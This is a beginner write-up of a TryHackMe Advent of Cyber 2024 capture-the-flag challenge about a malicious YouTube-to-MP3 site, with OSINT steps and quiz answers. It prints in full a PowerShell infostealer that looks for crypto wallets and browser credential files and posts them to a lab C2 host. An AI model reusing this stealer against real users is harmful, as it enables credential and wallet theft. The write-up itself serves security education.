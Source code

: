 ```yaml
---
title: Try Hack Me Advent of Cyber 2024 - Day 1
date: 2025-02-08
categories: [opsec, osint, writeups]
tags: [opsec, osint, purple]      # TAG names should always be lowercase
---
```


# Advent of Cyber 2024 Day 1








## Challenge info:




This is the day 1 challenge for the advent of a cyber event that was held this past holiday season that I missed. These challenges are easy and digestible targeted towards beginners. I am mainly walking through them for some quick learning and brushing up on some skills, as well I want to find the keycards for the harder side quest challenges. This challenge focuses on a OPSEC challenge that is focused on a youtube to mp3 style site.












## Walkthrough steps:




![alt text](../assets/imgs/aocday1/image-12.png)




The first thing I did on this site was try to upload a random youtube video to the site and download it as a `mp3`.


![alt text](../assets/imgs/aocday1/image-14.png)


Next we can download the file. This results in a zip folder so let's check it out...


![alt text](../assets/imgs/aocday1/image-15.png)




After extracting the contents we are greeted to 2 files `song.mp3` and `somg.mp3`, but weirdly one of them is executable...


![alt text](../assets/imgs/aocday1/image-16.png)


When we inspect the file types we can find something concerning...


![alt text](../assets/imgs/aocday1/image-17.png)


`somg.mp3` is a windows shortcut linker script. Lets check it out with `exiftool`.


![alt text](../assets/imgs/aocday1/image-18.png)




At the bottom of the output we can see a powershell command.


![alt text](../assets/imgs/aocday1/image-19.png)


Lets checkout that github file download. By following the link we can find the following code.




```
function Print-AsciiArt {
   Write-Host "  ____     _       ___  _____    ___    _   _ "
   Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |" 
   Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
   Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
   Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"


   Write-Host "         Created by the one and only M.M."
}


# Call the function to print the ASCII art
Print-AsciiArt


# Path for the info file
$infoFilePath = "stolen_info.txt"


# Function to search for wallet files
function Search-ForWallets {
   $walletPaths = @(
       "$env:USERPROFILE\.bitcoin\wallet.dat",
       "$env:USERPROFILE\.ethereum\keystore\*",
       "$env:USERPROFILE\.monero\wallet",
       "$env:USERPROFILE\.dogecoin\wallet.dat"
   )
   Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
   foreach ($path in $walletPaths) {
       if (Test-Path $path) {
           Add-Content -Path $infoFilePath -Value "Found wallet: $path"
       }
   }
}


# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
   $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
   $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"


   Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
   if (Test-Path $chromePath) {
       Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
   }
   if (Test-Path $firefoxPath) {
       Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
   }
}


# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
   $c2Url = "http://papash3ll.thm/data"
   $data = Get-Content -Path $infoFilePath -Raw


   # Using Invoke-WebRequest to send data to the C2 server
   Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}


# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server


```


This looks to be some kind of infostealer and at the top we can see a pretty unique str "Created by the one and only M.M.". We can search for this string on github to see if we get any hits. This would be bad for the malicious actor who wrote this script.


![alt text](../assets/imgs/aocday1/image-22.png)


We can see a few different results (I assume some are writeups or reposts as this challenge is old now.) The one that we want is at the bottom of the page so let's check it out.


![alt text](../assets/imgs/aocday1/image-23.png)


If we scroll down further we can see the same script that we downloaded.


![alt text](../assets/imgs/aocday1/image-24.png)


If we navigate to this user's github we can find the following.


![alt text](../assets/imgs/aocday1/image-25.png)




We should now have enough info to answer the following questions.


## Questions and Flags:


* Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author?


   * ![alt text](../assets/imgs/aocday1/image-26.png)


* The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?


   * We can find this in the stealer script.
   ```
       # Function to send the stolen info to a C2 server
       function Send-InfoToC2Server {
           $c2Url = "http://papash3ll.thm/data"
           $data = Get-Content -Path $infoFilePath -Raw


           # Using Invoke-WebRequest to send data to the C2 server
           Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
       }
   ```
   * "http://papash3ll.thm/data"


* Who is M.M? Maybe his Github profile page would provide clues?
   * We can gain this information from that github profile we found while doing some basic opsec.
   ![alt text](../assets/imgs/aocday1/image-25.png)


* What is the number of commits on the GitHub repo where the issue was raised?


   * We can find this by going back to the issue where `mayor malware` commented and then clicking the repo. Then we can view the commits of the repo.


   ![alt text](../assets/imgs/aocday1/image-27.png)




* What's with all these GitHub repos? Could they hide something else?


   * This hint at the bottom caught my eye as I am hunting for the keys to do the harder side quest challenges but I will save the keycard hunting for the side quest writeups.







































